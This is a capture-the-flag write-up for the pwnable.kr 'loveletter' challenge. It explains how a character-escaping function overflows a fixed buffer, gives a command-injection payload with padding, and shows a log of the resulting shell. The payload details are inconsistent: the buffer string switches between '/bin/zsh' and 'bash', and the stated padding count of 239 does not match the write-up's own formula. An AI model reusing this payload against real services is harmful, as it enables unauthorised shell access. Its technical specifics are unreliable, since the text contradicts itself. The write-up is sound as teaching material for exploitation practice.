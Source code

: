 # pwnable.kr -- Toddler's Bottle -- loveletter

## 1. Challenge

> At the end... all that matters is love.  
> author: jiwon choi  
>   
> ssh loveletter@pwnable.kr -p2222 (pw:guest)  

## 2. Solution

Log in via SSH and you will see 2 files, `loveletter` and `readme`.

readme
```
connect to port 9034 (nc 0 9034). the 'loveletter' binary will be executed under loveletter_pwn privilege.
pwn it and get a shell and read the flag.
```

Fine, let's download the binary file and drop it into IDA.

The exploit is in function `protect()`. `protect()` will check the string you input and replace every one of the following chars 

```
#&;`'"|*?~<>^()[]{}$\,
```

by `♥` which is 3 bytes long. However, `protect()` does not check buffer length, so it can makes the 256-bytes-long buffer in `main()` overflowed. What worse, `protect()` uses `memcpy()` to join strings and causes null-terminator `\x00` missing. 

![](pic1.png)

How could we get shell?

Well, we can overflow `buffer` and make `prolog_len` be `1` so only the first char of `prolog` will be copied into `loveletter` which is `e`. 

Then `buffer` will be copied into `loveletter`. We can let `buffer` be 

```
nv sh -c /bin/zsh .....
```

so `loveletter` will be 

```
env sh -c bash .....
```

`.....` can be anything. It won't prevent shell being launched.

In `solve.py`, I send

```
nv sh -c bash AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...AAA|\x01
```

where the number of char `A` is `(256 - len('nv sh -c /bin/zsh ') - len('|\x00') - 1) = 239` and it works fine.

```
loveletter@ubuntu:~$ mkdir /tmp/solve2
loveletter@ubuntu:~$ cd /tmp/solve2
loveletter@ubuntu:/tmp/solve2$ vim solve.py
loveletter@ubuntu:/tmp/solve2$ chmod +x solve.py
loveletter@ubuntu:/tmp/solve2$ ./solve.py
[+] Opening connection to localhost on port 9034: Done
[*] Switching to interactive mode
$ ls
flag
log
loveletter
super.pl
```


